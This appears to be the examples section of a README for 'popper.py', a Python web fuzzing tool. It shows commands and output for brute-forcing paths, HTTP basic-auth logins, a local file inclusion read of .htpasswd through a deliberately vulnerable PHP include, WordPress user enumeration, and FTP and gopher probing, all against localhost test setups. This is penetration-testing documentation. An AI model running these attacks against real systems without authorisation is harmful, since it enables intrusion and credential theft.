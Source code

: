 ## Examples
### Brute forcing paths
We use a dictionary of file names and hide 404 codes:

    $ cat testdic.txt
    admin
    temp
    sarasasasa
    backdoor
    user
    panel
    aaaaa

    $ python2 popper.py 'http://localhost/poppertest/[file].php' --file testdic.txt --hc 404
    302 8    194      0.000137 http://localhost/poppertest/user.php
    200 7    166      5.3e-05  http://localhost/poppertest/panel.php
    401 57   1539     0.000602 http://localhost/poppertest/admin.php

Hidden: 5


### Brute forcing http user and password
Now we use two payloads, one for users and another for passwords, brute forcing both at the same time. --file arguments will be used in order:

    $ cat userdic.txt
    user
    root
    admin

    $ cat passworddic.txt
    1234
    12345
    admin
    letmein
    toor

    Hidden: 23
    $ python2 popper.py 'http://[file]:[file]@localhost/poppertest/admin.php' --file userdic.txt passworddic.txt
    401 57   1539     0.00254  http://root:12345@localhost/poppertest/admin.php
    401 57   1539     0.001611 http://root:1234@localhost/poppertest/admin.php
    401 57   1539     0.001897 http://root:letmein@localhost/poppertest/admin.php
    401 57   1539     0.001712 http://root:toor@localhost/poppertest/admin.php
    401 57   1539     0.001264 http://user:12345@localhost/poppertest/admin.php
    401 57   1539     0.00077  http://user:letmein@localhost/poppertest/admin.php
    401 57   1539     0.001313 http://user:admin@localhost/poppertest/admin.php
    401 57   1539     0.001513 http://user:1234@localhost/poppertest/admin.php
    401 57   1539     5.6e-05  http://admin:1234@localhost/poppertest/admin.php
    401 57   1539     4.9e-05  http://admin:toor@localhost/poppertest/admin.php
    401 57   1539     6.4e-05  http://admin:admin@localhost/poppertest/admin.php
    401 57   1539     0.005372 http://admin:12345@localhost/poppertest/admin.php
    200 8    175      0.000302 http://admin:letmein@localhost/poppertest/admin.php
    401 57   1539     0.000719 http://user:toor@localhost/poppertest/admin.php
    401 57   1539     0.000617 http://root:admin@localhost/poppertest/admin.php

    Hidden: 0

We can, again, hide uninteresting results:

    $ python2 popper.py 'http://[file]:[file]@localhost/poppertest/admin.php' --file userdic.txt passworddic.txt --hc 401
    200 8    175      0.004078 http://admin:letmein@localhost/poppertest/admin.php

    Hidden: 14


### Brute forcing LFI

    $ cat include.php
    <?PHP include('./'.$_GET['include']);

    $ python2 popper.py 'http://localhost/poppertest/news/include.php?include=[repeat].htpasswd' --repeat 10 ../
    200 11   552      0.000613 http://localhost/poppertest/news/include.php?include=../../../../.htpasswd
    200 11   546      0.001891 http://localhost/poppertest/news/include.php?include=../../../.htpasswd
    200 11   588      0.001274 http://localhost/poppertest/news/include.php?include=../../../../../../../../../../.htpasswd
    200 11   534      0.001067 http://localhost/poppertest/news/include.php?include=../.htpasswd
    200 11   564      0.001231 http://localhost/poppertest/news/include.php?include=../../../../../../.htpasswd
    200 11   570      0.00132  http://localhost/poppertest/news/include.php?include=../../../../../../../.htpasswd
    200 11   582      0.002143 http://localhost/poppertest/news/include.php?include=../../../../../../../../../.htpasswd
    200 9    188      0.004141 http://localhost/poppertest/news/include.php?include=../../.htpasswd
    200 11   576      0.003028 http://localhost/poppertest/news/include.php?include=../../../../../../../../.htpasswd
    200 11   558      3e-05    http://localhost/poppertest/news/include.php?include=../../../../../.htpasswd

There is one request with 9 lines instead of 11. This is the one with the .htpasswd file


### Enumerating wordpress users
Now we will be using [range] to find some numeric ids and --threads 30 to speed up the process. This particular website redirects valid ids to /author/USERNAME

    python2 popper.py 'http://localhost/poppertest/wordpress/?author=[range]' --range 1,1000 --threads 30 --hc 404
    301 11   436      0.360397 http://localhost/poppertest/wordpress/?author=2
    301 11   433      0.357481 http://localhost/poppertest/wordpress/?author=5
    301 11   434      0.375045 http://localhost/poppertest/wordpress/?author=1
    301 11   433      0.631637 http://localhost/poppertest/wordpress/?author=79
    301 11   437      0.595769 http://localhost/poppertest/wordpress/?author=91
    301 11   433      0.632835 http://localhost/poppertest/wordpress/?author=102
    200 375  18685    0.873635 http://localhost/poppertest/wordpress/?author=101
    301 11   442      0.571062 http://localhost/poppertest/wordpress/?author=144
    301 11   433      0.604039 http://localhost/poppertest/wordpress/?author=147
    301 11   433      0.60503  http://localhost/poppertest/wordpress/?author=157
    301 11   434      0.599448 http://localhost/poppertest/wordpress/?author=194
    301 11   433      0.686675 http://localhost/poppertest/wordpress/?author=203
    301 11   433      0.489501 http://localhost/poppertest/wordpress/?author=232
    301 11   434      0.456722 http://localhost/poppertest/wordpress/?author=267
    301 11   435      0.603057 http://localhost/poppertest/wordpress/?author=422
    301 11   433      0.691517 http://localhost/poppertest/wordpress/?author=558
    301 11   434      0.457889 http://localhost/poppertest/wordpress/?author=678
    301 11   434      0.615434 http://localhost/poppertest/wordpress/?author=780
    301 11   438      0.589926 http://localhost/poppertest/wordpress/?author=844

    Hidden: 981


### Other protocols
It may work with other protocols supported by libcurl

    $ python2 popper.py 'ftp://localhost/[file]/' --file testdic
    Giving up on ftp://localhost/qwe/: Server denied you to change to the given directory
    Giving up on ftp://localhost/dddddd/: Server denied you to change to the given directory
    226 1    61       0.18242  ftp://localhost/somefolder/
    Giving up on ftp://localhost/asd/: Server denied you to change to the given directory
    226 182  13521    0.257413 ftp://localhost/otherfolder/

    $ python2 popper.py 'gopher://localhost/1/[file]/' --file testdic 
    0   1    57       0.383794 gopher://localhost/1/asd/
    0   2    167      0.397954 gopher://localhost/1/Internet/
    0   1    60       0.407395 gopher://localhost/1/dddddd/
    0   16   1124     0.400861 gopher://localhost/1/Computers/
    0   1    57       0.4052   gopher://localhost/1/qwe/
